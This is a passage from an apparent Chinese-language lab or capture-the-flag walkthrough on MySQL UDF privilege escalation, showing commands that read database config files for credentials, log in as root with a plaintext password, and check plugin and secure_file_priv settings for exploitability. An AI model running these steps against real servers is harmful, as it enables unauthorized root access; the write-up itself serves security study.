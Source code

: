 ### <6> UDF 提权

1、www-data 权限下，发现 mysql 程序以 root 身份运行，并发现两个数据库配置文件`mysqli_connect.php`，其中/var 下目录找到的数据库登录凭据是可以成功登录数据库的

```plain
ps -ef | grep mysql
cat /var/www/mysqli_connect.php
cat /var/mysqli_connect.php


mysql -uroot -proot@ISIntS
mysql> select @@version;
mysql> show variables like '%plugin%';
mysql> show variables like '%compile%'; 
mysql> select * from mysql.func;

whereis lib_mysqludf_sys.so
whereis lib_mysqludf_sys_32.so
whereis lib_mysqludf_sys_64.so
```

[![](assets/1703831504-b77aad244687b6026318b391525e106a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164043-9f0aba0a-a493-1.png)

2、信息整理。  
导入导出权限查看（secure\_file\_priv 为空，导入导出文件无限制）  
mysql 架构信息查看（x86\_64）  
plugin 目录位置（/usr/lib/mysql/plugin）

```plain
//secure_file_priv 为 NULL，表示限制 mysqld 不允许导入导出文件，此时无法提权
//secure_file_priv 为 /tmp/ ，表示限制 mysqld 的导入导出文件只能发生在 /tmp/ 目录下，此时无法提权
//secure_file_priv 没有值，表示不对 mysqld 的导入导出文件做限制，此时可提权
```

[![](assets/1703831504-e03fff4e78881e182510cfb65fb0aac7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164051-a3ed050a-a493-1.png)

